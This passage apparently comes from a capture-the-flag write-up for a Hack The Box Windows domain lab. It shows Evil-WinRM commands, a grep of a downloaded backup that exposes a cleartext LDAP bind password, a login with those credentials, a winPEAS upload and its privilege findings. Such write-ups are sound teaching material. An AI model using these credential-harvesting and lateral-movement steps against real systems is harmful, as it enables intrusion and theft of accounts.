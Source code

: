 - AD user object confirmed. No delegation properties shown in output snippet.
    

---

### Backup Recon and Secret Harvesting

```powershell
*Evil-WinRM* PS C:\Backups> ls
```

```text
Mode LastWriteTime Length Name
-a---- 3/8/2025 8:22 AM 4639546 site-backup-2024-12-30.zip
```

- Backup archive found at C:\Backups\site-backup-2024-12-30.zip.
    
- On attacker machine after download & unzip:
```bash
grep -RiE "pass|user" .
./assets/sass/main.scss: input[type="password"],
./nms-auth-config.xml.bak: <bind-password>ChefSteph2025!</bind-password>
```

- grep located backup file containing nms-auth-config.xml.bak with an embedded bind-password.
- read ./nms-auth-config.xml.bak 
```xml
<SNIP>
<base-dn>dc=PUPPY,dc=HTB</base-dn>
<bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
<bind-password>ChefSteph2025!</bind-password>
```

- Credentials recovered: steph.cooper : ChefSteph2025!

---
## Login as steph.cooper

```bash
evil-winrm -i 10.10.11.70 -u 'steph.cooper' -p 'ChefSteph2025!'
upload winPEASx64.exe
```

---

### winPEAS Findings 

- Writable Named Pipes with Everyone write/create permissions (eventlog, ROUTER, RpcProxy*, vgauth-service).
    
- LSA Protection and CredentialGuard disabled.
    
- SeMachineAccountPrivilege enabled for current token.
    
- cachedlogonscount = 10 (cached credentials exist).
    
- AutoLogon credentials present.
    